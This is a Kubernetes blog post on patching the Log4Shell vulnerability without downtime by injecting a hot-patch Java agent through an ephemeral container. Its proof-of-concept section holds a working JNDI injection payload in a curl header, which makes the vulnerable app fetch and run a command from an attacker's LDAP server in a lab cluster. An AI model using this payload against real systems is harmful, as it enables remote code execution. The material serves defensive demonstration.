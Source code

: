 ```yaml
---
layout: blog
title: "Patching Log4Shell in One Command Without Downtime Using Ephemeral Containers"
date: 2021-12-13
slug: patching-log4shell-using-ephemeral-containers
---
```


**Author:** Eden Federman

## A new critical vulnerability arises

[Log4Shell](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-44228) is a Remote Code Execution vulnerability in the Apache Log4j library, an extremely popular Java-based logging framework. This vulnerability allows an attacker who can control log messages to execute arbitrary code loaded from the attacker-controlled servers.
On December 9th this vulnerability was published as CVE-2021-44228, categorized as Critical with a CVSS score of 10 (the highest score possible).

Due to the massive adoption of the Log4j framework, this vulnerability also indirectly affects many Java open-source projects such as Apache Struts 2, Apache Solr, Apache Druid, and Spring Boot.
If your workload is affected, the best way to patch this vulnerability is by upgrading Log4j to version 2.15.0 or higher.

Upgrading the log4j version has a few disadvantages:

- Requires building a new container image
- Deploying the modified version will cause a restart to the running application and possibly some downtime.
- The affected log4j versions may also be downloaded via a transitive dependency of other libraries, which makes the upgrade process even more difficult.

Fortunately, you can leverage the ephemeral containers feature introduced in Kubernetes v1.16 via a feature gate. In the newly released Kubernetes v1.23, this feature is enabled by default.
Ephemeral containers will allow us to patch applications without modifying code or causing downtime.
The following mitigation is achieved by running an external tool named [Log4jHotPatch](https://github.com/corretto/hotpatch-for-apache-log4j2) as an ephemeral container.

## Proof of Concept

Before diving into the solution, first I want to give you a safe way to see the attack in action.
First, you will need a Kubernetes cluster running version v1.23. An easy way to start one is via kind:

```shell
kind create cluster --image=kindest/node:v1.23.0
```

Next, simulate the attack by deploying a [Spring Boot application](https://github.com/christophetd/log4shell-vulnerable-app) and a malicious JNDI server via the following command:

```shell
kubectl apply -f https://raw.githubusercontent.com/kubernetes/website/main/content/en/blog/_posts/2021-12-13-patching-log4shell-using-ephemeral-containers/log4j-vuln-example.yaml
```

Now you have two running pods: vulnerable-app and attacker.
In order to attack the vulnerable application, you need to interact with it in a way that triggers writing a log message with our malicious string. The example vulnerable application has a feature that will log the “X-Api-Version” header of any incoming HTTP request. In addition, the malicious JNDI server contains an API endpoint that will return a class that executes the command specified at `/Basic/Command/Base64/<base64-command>`.
Everything left to do is to invoke an HTTP request with the malicious command, in this example: `pkill java` (a denial of service attack).

```shell
kubectl run -it --rm client --image=curlimages/curl -- curl http://vulnerable-app:8080 -H 'X-Api-Version: ${jndi:ldap://attacker:1389/Basic/Command/Base64/cGtpbGwgamF2YQo=}'
```

{{< mermaid >}}
sequenceDiagram
Attacker ->> Java Application: HTTP Request with X-Api-Version header pointing to the attacker's server<br>'X-Api-Version: ${jndi:ldap://attacker:1389/Basic/Command/Base64/cGtpbGwgamF2YQo=}'
Java Application ->> Attacker JNDI Server:/Basic/Command/Base64/cGtpbGwgamF2YQo=
Attacker JNDI Server ->> Java Application: pkill java
{{</ mermaid >}}
Once the command executes, you should see that our Spring application crashed!

```shell
kubectl get pods
NAME             READY   STATUS    RESTARTS   AGE
attacker         1/1     Running   0          16m
vulnerable-app   0/1     Error     0          16m
```

## Mitigation

The mitigation is based on a new Kubernetes feature called ephemeral containers, a new kind of container that runs temporarily in an existing Pod.
In this mitigation solution, the ephemeral container will contain an image based on [Log4jHotPatch](https://github.com/corretto/hotpatch-for-apache-log4j2) - a Java agent that removes the problematic log4j code. Specifically, it changes the `lookup()` method of the `org.apache.logging.log4j.core.lookup.JndiLookup` class to always return the string `"Patched JndiLookup::lookup()"` without accessing external, possibly malicious, servers.

In order to inject a Java agent into a running Java application, both containers need to have a shared `/tmp` folder. This is achieved by creating a symbolic link in the ephemeral container entrypoint, referring to the target container `/tmp` directory (the full Dockerfile is available [here](https://github.com/edeNFed/log4shell-ephemeral-containers/blob/2da22799166d8e4fc5fed342f2d8b83f0b9f7257/patch-java8.Dockerfile)).

```dockerfile
CMD rm -rf /tmp \
    && ln -s /proc/1/root/tmp / \
    && java -cp .:${JAVA_HOME}/lib/tools.jar Log4jHotPatch
```

If you ran the proof of concept from earlier, redeploy the applications by running:

```shell
kubectl delete -f https://raw.githubusercontent.com/kubernetes/website/main/content/en/blog/_posts/2021-12-13-patching-log4shell-using-ephemeral-containers/log4j-vuln-example.yaml
kubectl apply -f https://raw.githubusercontent.com/kubernetes/website/main/content/en/blog/_posts/2021-12-13-patching-log4shell-using-ephemeral-containers/log4j-vuln-example.yaml
```

Finally, run the mitigation command:

```shell
kubectl debug -it vulnerable-app --image=edenfed/log4j2patch:8 --target=vulnerable-app
```

You can verify that the mitigation worked by executing the attack command again and observing that the Spring Boot application is still running.

```shell
kubectl get pods
NAME             READY   STATUS    RESTARTS   AGE
attacker         1/1     Running   0          70s
vulnerable-app   1/1     Running   0          70s
```

Notice that the current fix is temporarly, any restart to the application will require running the patching command again. This patch works well for a long running workloads that can not be restarted. A permanent fix should involve upgrading the log4j version.

## Summary

Log4Shell is an extremely critical attack, affecting most of the Java applications around the world.
Luckily, newer versions of Kubernetes include a great feature that allows us to patch this vulnerability easily without needing to modify the container image or restart the application.

## Credits

- [Apache Log4j](https://logging.apache.org/log4j/) by the Apache Software Foundation
- [Log4jHotPatch](https://github.com/corretto/hotpatch-for-apache-log4j2) created by AWS Corretto team
- [Log4Shell example Spring App](https://github.com/christophetd/log4shell-vulnerable-app) created by christophetd
- [Malicious JNDI Server (JNDIExploit)](https://github.com/feihong-cs) by feihong-cs
